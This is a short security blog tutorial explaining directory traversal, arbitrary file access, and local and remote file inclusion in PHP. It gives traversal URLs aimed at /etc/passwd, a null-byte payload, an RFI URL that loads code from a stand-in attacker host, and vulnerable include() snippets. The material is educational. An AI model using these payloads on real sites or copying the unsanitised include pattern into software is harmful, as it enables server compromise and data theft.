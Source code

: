 ```yaml
---
title: Local file inclusion & remote file inclusion
categories: Vulnerabilities
date: 2020-02-09 
author: shiva G prasadh
published: true
---
```

 
Sometimes you might be confused when you think about the difference between Arbitrary file access, Local file inclusion and Remote file inclusion attacks. In a File Inclusion, Attackers run their own code on a vulnerable website. If the attacker can include their own malicious code on a web page, it is possible to "convince" a PHP script to include a remote file instead of a presumably trusted file from the local file system. Lets discuss about the differences.  
 
### [](#header-3) Directory Traversal Attack
 
Directory traversal attacks that allowed an attacker to ‘traverse’ outside an intended directory to access a file or directory that was not intended.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../../../etc/passwd
Making this request would direct the script to traverse outside the web server document root (DOCROOT) to access the system password file (/etc/passwd).

* * * 
### [](#header-3) Arbitrary File Access
 
If the application is running with full privileges and could access any file on the system by traversal, and it only allows an attacker to read the contents of the file, not write to it or execute it as a script, It qualified to “traversal arbitrary file access”.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../tmp/shell.php
In this traversal arbitrary file access issue, the contents of shell.php will be displayed, not executed.

* * *
 
### [](#header-3) Local File Inclusion (LFI) attack
 
It often exhibit the same trait as directory traversal attacks, the attack typically involves a relative (e.g. ../../) or absolute path (e.g. &file=/path/to/file) to call a specific file on the system. The difference is in how the application handles the request. Instead of displaying the contents of the file like above, it will include the file as if it is an executable script. This means that arbitrary code, but limited to what is already on the file system, will be executed with the same privileges as the web application and/or web server.  
Basically, the difference is that with a file inclusion vulnerability, the resource is loaded and executed in the context of the current application. A directory traversal vulnerability on the other hand, only gives you the ability to read the resource.

```
	<?php
	$template =$_GET['template'];
	include("/".$template .".php");			
	?>
```

From Code, Attacker can assign template to be "../../../../etc/passwd%00". It causes the attacker to read a content from /etc/passwd.

```
[URL] http://vulnerableWebSite.com/index.php?template=../../../../etc/passwd%00
```

* * *
 
### [](#header-3) Remote File Inclusion (RFI) attack
 
It allows an attacker to include a remotely hosted file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation.  
it can also lead to:  
 
Code execution on the web server
Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS) 
Denial of Service (DoS)  
Sensitive Information Disclosure
 
Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:  
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```
In this example the path is extracted from the HTTP request and no input validation is done.
```http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite/malicousURL```

File Inclusion (RFI/LFI) mostly occurs from some functions that developers	do not properly check user supplied data.
	
Example PHP function:

	include()
	include_once()
	require()
	require_once()
	fopen()

